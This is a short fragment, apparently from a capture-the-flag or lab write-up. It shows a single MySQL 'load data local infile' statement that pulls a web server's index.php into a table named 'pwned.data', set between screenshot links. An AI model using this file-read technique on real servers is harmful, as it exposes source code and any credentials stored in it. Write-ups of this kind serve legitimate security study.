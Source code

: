 ![dfgsfds](/assets/img/Posts/58fd325f674f8195c16357d170a09064.png)

```
load data local infile "/var/www/html/index.php"
into table pwned.data
```
![sdfgsdfs](/assets/img/Posts/13985ae654d999563cd742e29e2fad9f.png)
